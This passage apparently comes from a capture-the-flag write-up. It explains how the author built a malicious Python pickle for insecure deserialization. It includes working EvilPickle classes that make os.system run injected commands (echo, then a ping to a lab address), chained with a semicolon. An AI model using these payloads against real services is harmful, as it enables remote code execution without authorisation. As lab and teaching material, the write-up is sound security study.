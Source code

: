 ![Img](images/exp2.0.png "Img")

That's when I realized that I wasn't actually unpacking the exploit code, but the ``Homerp1`` string + the exploit code! That's why it wasn't working and throwing an error. In fact, I tested it locally and that was the issue.

In order to keep the ``Homer`` string in the char variable I though about doing the following. First of all, I would add the string to the command run in the OS, but separated by a semicolon (as if they were two commands). That way, the first one would execute (the exploit), and the second result in an error. Besides, as the pickle exploit was several lines long, I could generate it, split it based on the newline characters (``\n``), then assign the first few lines (joined again with newlines) until the ``Homer`` string to the char variable and let the rest be the quote.

Translated in code...

```py
class EvilPickle(object):
    def __reduce__(self):
	       return (os.system, ('echo Powned;homerp1', ))
data = pickle.dumps(EvilPickle())
char = ("\n").join(data.split("\n")[:4])
pickle_data = ("\n").join(data.split("\n")[4:])
```

However, as I was still getting 500 errors, I thought about changing the exploit to somethin else, like a ``ping``. Finally I got the following (I added the char before 'cause it was always the same and the only thing that changed was my payload, so I could change it manually from the variable).

```py
char = """cposix
system
p0
(S'ping -c 5 10.10.14.143;homerp1'
"""

class EvilPickle(object):
    def __reduce__(self):
	       return (os.system, ('ping -c 4 10.10.14.143;homerp1', ))
data = pickle.dumps(EvilPickle())
pickle_data = ("\n").join(data.split("\n")[4:])
```
